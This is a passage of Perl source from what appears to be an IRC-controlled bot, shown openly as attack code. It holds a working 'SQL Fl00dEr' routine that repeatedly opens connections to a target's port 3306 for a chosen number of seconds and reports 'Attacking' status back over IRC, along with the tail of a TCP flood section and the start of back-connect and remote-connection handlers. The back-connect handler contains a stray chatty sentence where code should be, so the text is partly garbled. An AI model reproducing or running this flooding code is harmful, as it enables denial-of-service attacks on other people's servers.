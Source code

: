 ###################### 

#  End of TCPFlood   # 

###################### 

###################### 

#               SQL Fl00dEr                     # 

###################### 

if ($funcarg =~ /^sqlflood\s+(.*)\s+(\d+)/) { 

sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3SQL-DDOS12] Attacking 4 ".$1." 12 on port 3306 for 4 ".$2." 12 seconds ."); 

my $itime = time; 

my ($cur_time); 

$cur_time = time - $itime; 

while ($2>$cur_time){ 

$cur_time = time - $itime; 

   my $socket = IO::Socket::INET->new(proto=>'tcp', PeerAddr=>$1, PeerPort=>3306); 

   print $socket "GET / HTTP/1.1\r\nAccept: */*\r\nHost: ".$1."\r\nConnection: Keep-Alive\r\n\r\n"; 

close($socket); 

} 

sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3SQL-DDOS12] Attacking done 4 ".$1."."); 

} 

###################### 

#   Back Connect     # 

  

###################### 

         if ($funcarg =~ /^back\s+(.*)\s+(\d+)/) { 

         sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3Back-Connect12]:::...  I don't know, I'm watching a show tho"); 

           

         } 

         if ($funcarg =~ /^shhcon\s+(.*)\s+(\d+)/) { 

            my $host = "$1"; 
